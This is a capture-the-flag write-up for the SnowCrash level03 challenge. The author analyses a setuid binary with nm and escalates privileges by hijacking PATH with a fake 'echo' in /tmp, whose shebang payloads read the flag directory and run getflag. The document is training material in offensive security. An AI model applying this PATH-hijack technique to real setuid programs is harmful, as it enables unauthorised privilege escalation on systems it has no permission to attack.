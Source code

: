 # Write up

Now, we have an executable named `level03`
We can use nm, so we check the used functions with `nm -u level03` which returns us :
```
         w _Jv_RegisterClasses
         w __gmon_start__
         U __libc_start_main@@GLIBC_2.0
         U getegid@@GLIBC_2.0
         U geteuid@@GLIBC_2.0
         U setresgid@@GLIBC_2.0
         U setresuid@@GLIBC_2.0
         U system@@GLIBC_2.0
```

By analysing the function calls, the program seems to simply execute a shell command, like `cat exploit_me.txt`
I try to trick the program :
```
level03@SnowCrash:~$ whereis echo
echo: /bin/echo /usr/share/man/man1/echo.1.gz
level03@SnowCrash:~$ whereis cat
cat: /bin/cat /usr/share/man/man1/cat.1.gz
level03@SnowCrash:~$ cp /bin/echo /tmp/cat
level03@SnowCrash:~$ export PATH=/tmp:/usr/bin
level03@SnowCrash:~$ ./level03
```
I change the PATH and copy echo (and rename it to cat) in the tmp folder to make the program run echo instead of cat.
But, as I didn't expected : `/usr/bin/env: echo: No such file or directory`
The program currently try to execute `/usr/bin/env echo`

By trying to change echo to cat :
```
level03@SnowCrash:~$ /bin/cp /bin/cat /tmp/echo
level03@SnowCrash:~$ ./level03
echo: Exploit: Permission denied
echo: me: Permission denied
```
We now know that the C system function call is `system("echo Exploit me")`;
After reading the `/etc/passwd` file (see level01), we know that the flag03 home folder is located at `/home/flag/flag03`
We try to list the files inside this folder with this payload : `/bin/echo '#!/bin/ls /home/flag/flag03' > /tmp/echo; ./level03`
This home folder contains a `README.txt` file
Using this payload : `/bin/echo '#!/bin/cat /home/flag/flag03/README.txt' > /tmp/echo;./level03`, we get a `Don't forget to launch getflag !` message.
We finally get the flag using this final payload :
```
/bin/echo '#!/bin/getflag' > /tmp/echo
```

# Softs

- nm